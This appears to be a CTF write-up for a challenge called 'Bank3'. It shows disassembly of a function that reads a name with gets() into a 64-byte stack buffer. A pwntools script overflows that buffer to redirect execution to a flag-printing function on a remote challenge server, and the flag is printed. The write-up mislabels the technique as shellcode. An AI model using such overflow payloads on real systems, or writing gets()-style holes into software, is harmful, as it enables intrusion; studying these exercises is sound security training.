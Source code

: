 # **Bank3**

Pseudo code from IDA:

```c++
void getFlag()
{
  system("cat flag.txt");
}
void Register()
{
  char name[64]; // [esp+Ch] [ebp-4Ch] BYREF
  int balance; // [esp+4Ch] [ebp-Ch]

  balance = 0;
  printf("[+] Please enter your name: ");
  gets(name);
  printf("[+] Thanks for the registration, your balance is %d.\n", balance);
}
```

Objdump of `Register`

```objdump
public Register
Register proc near

name= byte ptr -4Ch
balance= dword ptr -0Ch
var_4= dword ptr -4

; __unwind {
push    ebp
mov     ebp, esp
push    ebx
sub     esp, 54h
call    __x86_get_pc_thunk_bx
add     ebx, (offset _GLOBAL_OFFSET_TABLE_ - $)
mov     [ebp+balance], 0
sub     esp, 0Ch
lea     eax, (aPleaseEnterYou - 804A000h)[ebx] ; "[+] Please enter your name: "
push    eax             ; format
call    _printf
add     esp, 10h
sub     esp, 0Ch
lea     eax, [ebp+name]
push    eax             ; s
call    _gets
add     esp, 10h
sub     esp, 8
push    [ebp+balance]
lea     eax, (aThanksForTheRe - 804A000h)[ebx] ; "[+] Thanks for the registration, your b"...
push    eax             ; format
call    _printf
add     esp, 10h
nop
mov     ebx, [ebp+var_4]
leave
retn
; } // starts at 8048531
Register endp
 ```

No direct way to `getFlag()` in `Register()` this time. So we need to call the `getFlag()` by shellcode. IDA gives us the address of `getFlag` is `0x08048506`. So we need to overwrite 12(`0xC`) bytes of `balance`, 4 bytes of `var_4` in assembly code function in addition to 64 (`0x4C`) bytes of `name` to access to `getFlag`.

The exploit code:

```python
from pwn import *

r = remote("61.28.237.24",30204)
#r = process('./bank3')
r.recvuntil('[+] Please enter your name: ')
payload= "A"*64+16*"B"+p32(0x08048506)
r.send(payload)
r.interactive()
#HCMUS-CTF{overwrite_all_the_things}
```

[**Turn Back**](README.md)